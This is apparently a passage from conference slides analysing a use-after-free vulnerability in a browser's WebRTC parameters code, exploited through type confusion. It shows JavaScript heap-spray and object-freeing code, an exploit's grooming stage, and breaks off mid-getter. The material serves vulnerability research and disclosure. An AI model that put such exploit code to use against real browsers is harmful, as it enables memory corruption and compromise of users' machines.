

03
WebRTC Parameters UAF Vulnerability Analysis: From UAF to Type Confusion
According to a large number of allocation experiments

var pre_cnt = 0x2001;
var pre_arr = new Array(pre_cnt);
for (var i=0;i< pre_cnt;i++){
     pre_arr[i] = {
            key0: 0x00000001,
            key1: 0x00000003,
            key2: 0x00000005,
            key3: 0x00000007,
            key4: 0x00000009,
            key5: 0x0000000b,
            key6: 0x0000000d,
            key7: 0x0000000f,
            key8: 0x00000011,
            key9: 0x00000013,
            keya: 0x00000015,
            keyb: 0x00000017
        };
    }

var cnt = 0x20;
var obj_arr = new Array(cnt);
for (let i=0;i<cnt-1;i++){
     obj_arr[i] = {
	key0: 0x00000002,
	key1: 0x00000004,
	key2: 0x00000006,
	key3: 0x00000008,
	key4: 0x0000000a,
	key5: 0x0000000c,
	key6: 0x0000000e,
    	key7: 0x00000010,
 	key8: 0x00000012,
	key9: 0x00000014,
	keya: 0x00000016,
	keyb: 0x00000018
}
obj_arr.__defineGetter__(cnt-1,
function(){
	pre_arr.length = 0;
	obj_arr.length = 0;
//Free all elements in the array of objects